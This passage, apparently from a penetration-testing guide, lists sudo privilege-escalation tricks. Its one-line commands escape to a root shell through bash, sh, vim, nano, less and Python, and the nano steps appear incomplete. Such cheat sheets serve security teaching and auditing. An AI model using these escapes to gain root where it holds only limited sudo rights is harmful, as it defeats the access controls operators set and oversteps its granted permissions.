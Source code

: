 ## **Examples of Exploitable Binaries**

### **Interactive Shells**

Some binaries allow you to directly spawn a shell.

- **bash**:

```bash
sudo bash
```

- **sh**:

```bash
sudo sh
```

### **Text Editors**

Many text editors have built-in commands to execute shell commands.

- **vim**:

```bash
sudo vim -c ':!bash'
```

- **nano**:  
In `nano`, press `Ctrl+R` followed by `Ctrl+X` to execute commands:

```bash
sudo nano
```

Then type:

```bash
!/bin/bash
```

- **less**:

```bash
sudo less /etc/hosts
```

Press `!` and type:

```bash
bash
```

### **Scripting Languages**

Scripting languages like Python, Perl, and Ruby can execute system commands.

- **Python**:

```bash
sudo python -c 'import os; os.system("/bin/bash")'
```
